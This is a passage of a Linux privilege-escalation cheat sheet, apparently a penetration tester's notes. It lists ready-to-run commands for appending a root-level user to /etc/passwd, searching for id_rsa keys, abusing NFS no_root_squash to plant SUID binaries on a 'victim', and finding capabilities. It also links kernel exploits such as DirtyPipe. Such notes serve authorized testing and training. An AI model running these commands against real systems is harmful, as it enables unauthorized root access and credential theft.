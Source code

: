    openssl passwd -1 -salt [username] [password]

Append to /etc/passwd or /etc/shadow

    Username:encrypted_password:UID:GUID:root:/root:/bin/bash

### SSH Keys   
    find / -name authorized_keys 2> /dev/null
    find / -name id_rsa 2> /dev/null   

## Capabilities 
check gtfobins, [capabilities reference](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) 

    getcap -r / 2>/dev/null  
    getcap /usr/bin/binary   
 Also check for special permissions:    
 
    ls -l /usr/bin/binary   
    lsattr /usr/bin/binary   
    
## Container Escapes 
docker, lxd, 
[Docker and Container escapes - DEEPCE](https://github.com/stealthcopter/deepce)   
[Docker Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)    
[Docker for pen testers](https://blog.ropnop.com/docker-for-pentesters/)   

    docker ps -a 

## NFS No Root Squashing   
Allows you to mount drive onto attack box, create a SUID binary that you can run on the victim.  

    cat /etc/exports     
    showmount -e [victim ip]   
    mount -o rw,vers=2 [victim ip]:/mntFolder /mntFolder/tmp   

## Sequoia (CVE-2021-33909)  
[Qualys blog post](https://blog.qualys.com/vulnerabilities-threat-research/2021/07/20/sequoia-a-local-privilege-escalation-vulnerability-in-linuxs-filesystem-layer-cve-2021-33909)  

## CVE-2022-0847 (DirtyPipe)    
[CVE-2022-0847 scripts](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)    

## Kernel Exploits 
[Linux Kernel CVEs Site](https://www.linuxkernelcves.com/cves) 

    uname -a  
    cat /etc/*-release
    